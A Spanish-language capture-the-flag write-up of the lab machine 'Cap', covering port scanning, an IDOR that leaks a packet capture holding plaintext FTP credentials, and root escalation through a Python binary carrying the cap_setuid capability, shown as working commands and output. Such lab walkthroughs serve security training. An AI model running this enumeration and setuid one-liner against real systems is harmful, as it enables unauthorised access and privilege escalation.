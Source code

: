# Cap 
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Cap.png" alt="Cap" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Insecure Directory Object Reference (IDOR)</li>
        <li>Information Leakage</li>
        <li>Abusing Capabilities (Python3.8) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:
![alt text](Imagenes/Cap.png)
```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada.
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID.
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 